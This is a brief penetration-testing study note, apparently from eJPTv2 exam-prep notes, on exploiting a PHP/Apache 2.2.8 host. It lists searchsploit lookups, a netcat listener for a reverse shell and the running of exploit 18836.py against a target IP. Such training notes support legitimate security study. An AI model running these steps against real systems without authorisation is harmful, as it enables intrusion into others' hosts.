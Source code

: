 ```yaml
---
up: "[[4. ARCHIVES/eJPTv2/Host & Network Penetration Testing/Exploitation/Linux Exploitation/Linux Exploitation]]"
---
```


# Targeting PHP

## Demonstration

```bash
# targeting port 80 Apache httpd 2.2.8
# search for /phpinfo.php file
$ searchsploit php
$ searchsploit -m 
# change pwn_code
$ nc -lvnp 1234
$ python2 18836.py <ip> 80
```

